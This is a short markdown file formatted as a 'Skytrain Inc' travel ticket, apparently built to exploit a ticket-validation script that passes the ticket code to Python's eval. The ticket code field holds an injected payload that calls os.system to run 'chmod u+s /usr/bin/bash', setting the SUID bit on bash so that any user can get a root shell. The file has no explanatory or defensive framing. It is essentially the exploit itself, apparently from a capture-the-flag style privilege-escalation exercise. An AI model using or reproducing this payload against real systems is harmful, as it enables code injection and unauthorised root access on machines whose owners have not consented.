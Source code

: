 # Skytrain Inc
## Ticket to 
__Ticket Code:__
**39+ (int(eval(" __import__(\'os\').system(\'chmod u+s /usr/bin/bash\')  ") == 10))**